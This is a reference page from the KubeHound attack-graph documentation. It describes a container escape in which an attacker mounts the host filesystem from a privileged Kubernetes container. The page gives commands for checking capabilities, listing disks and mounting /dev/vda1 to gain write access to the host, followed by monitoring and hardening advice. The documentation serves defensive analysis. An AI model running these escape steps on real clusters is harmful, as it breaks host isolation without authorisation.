 ```yaml
---
title: CE_PRIV_MOUNT
---
```


<!--
id: CE_PRIV_MOUNT
name: "Container escape: Mount host filesystem"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# CE_PRIV_MOUNT

| Source                                | Destination                 | MITRE                                                               |
| ------------------------------------- | --------------------------- | ------------------------------------------------------------------- |
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Mount the host disk and gain access to the host via arbitrary filesystem write

## Details

A container running with `privileged: true` disables almost all the container isolation mechanisms. As such an attacker can trivially gain access to the host's resources, including the disk, to escape the container. In this attack, we simply list the disks on the host machine, mount them into the container and exploit a privileged file write to gain execution on the host.

## Prerequisites

Execution within a privileged container process.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/CE_PRIV_MOUNT.yaml).

## Checks

From within a running container, determine whether it is running with as privileged by examining capabilities:

```bash
# Check the current process' capabilities
cat /proc/self/status | grep CapEff
# CapEff: 000001ffffffffff

# Decode the capabilities (on current box or offline) and check for CAP_SYS_ADMIN
# NOTE: can install capsh via apt-get update && apt-get install libcap2-bin
capsh --decode=000001ffffffffff | grep cap_sys_admin
```

Check that the host disks are visible to our container process:

```bash
apt update && apt install fdisk
fdisk -l 
# -> /dev/vda1
```

## Exploitation

Mount the disks into the container

```bash
mkdir -p /mnt/hostfs
mount /dev/vda1 /mnt/hostfs
ls -lah /mnt/hostfs/
```

With the disk now writeable from the container, follow the steps in [EXPLOIT_HOST_WRITE](./EXPLOIT_HOST_WRITE.md#Exploitation).

## Defences

### Monitoring

+ Monitor `mount` events originating from containers
+ See [EXPLOIT_HOST_WRITE](./EXPLOIT_HOST_WRITE.md#Defences)

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with `privileged` enabled.

### Least Privilege

Avoid running containers as the `root` user. Enforce running as an unprivileged user account using the `runAsNonRoot` setting inside `securityContext` (or explicitly setting `runAsUser` to an unprivileged user). Additionally, ensure that `allowPrivilegeEscalation: false` is set in `securityContext` to prevent a container running as an unprivileged user from being able to escalate to running as the `root` user.

## Calculation

+ [EscapePrivMount](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/escape_priv_mount.go)

## References:

+ [Bad Pods: Kubernetes Pod Privilege Escalation](https://bishopfox.com/blog/kubernetes-pod-privilege-escalation)
+ [7 Ways to Escape a Container](https://www.panoptica.app/research/7-ways-to-escape-a-container)
